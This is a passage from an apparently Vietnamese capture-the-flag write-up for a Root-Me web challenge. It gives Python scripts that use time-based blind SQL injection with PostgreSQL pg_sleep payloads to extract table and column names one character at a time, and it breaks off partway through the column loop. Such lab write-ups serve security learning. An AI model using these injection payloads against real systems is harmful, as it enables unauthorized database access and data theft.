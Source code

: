 ![image](https://hackmd.io/_uploads/BkyYun3Bp.png)

- Ở đây mình cũng không hiểu tại sao mình sleep(10) nhưng nó thực tế chỉ tối đa là 2,7 đến 2,8 giây :v 

Ta đã biết được length rồi , bây giờ dò table_name. Thay đổi đoạn code ở trên 1 xí thành như sau : 

```python=
    table_name=""
    for i in range(1, 6):
        for j in range (32,126):
            payload = f"1;SELECT CASE WHEN (ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables limit 1),{i},1))={j}) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"
            PARAMS = {"action": "member", "member": payload}
            http = requests.get(url=URL, params=PARAMS, verify=False, proxies=proxies)
            if (http.elapsed.total_seconds()) >= 2:
                table_name += chr(j)
                sys.stdout.write('\r' + table_name)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + table_name + chr(j))
                sys.stdout.flush()
```

![image](https://hackmd.io/_uploads/rJ6a963Bp.png)

Có được table_name là `users` , tiếp tục tìm với column_name, vì mình lười nên sẽ viết code để làm cho nhanh nhé : 

```py=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
URL = "http://challenge01.root-me.org/web-serveur/ch40/"

def lenght_column_name(offset):
    for i in range(1, 30):
        payload = f"1;SELECT CASE WHEN ((SELECT LENGTH(column_name) FROM information_schema.columns limit 1 offset {offset})={i}) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"
        PARAMS = {"action": "member", "member": payload}
        http = requests.get(url=URL, params=PARAMS, verify=False, proxies=proxies)
        if int((http.elapsed.total_seconds())) >= 2:
            return i

def columns_name():
    # 10 column đầu tiên
    for k in range (0,10):
        length = lenght_column_name(k)
        if length is None:
            continue
        column_name = ''
        print(f"Colum tại offset {k} có LEGHTH là {length} kí tự, tiếp tục tìm tên column ,loading...")
        for i in range(1, length + 1):
            for j in range(97, 123):
                payload = f"1;SELECT CASE WHEN (ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns limit 1 offset {k}),{i},1))={j}) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -"
                PARAMS = {"action": "member", "member": payload}
                http = requests.get(url=URL, params=PARAMS, verify=False, proxies=proxies)
                if int((http.elapsed.total_seconds())) >= 2:
                    column_name += chr(j)
```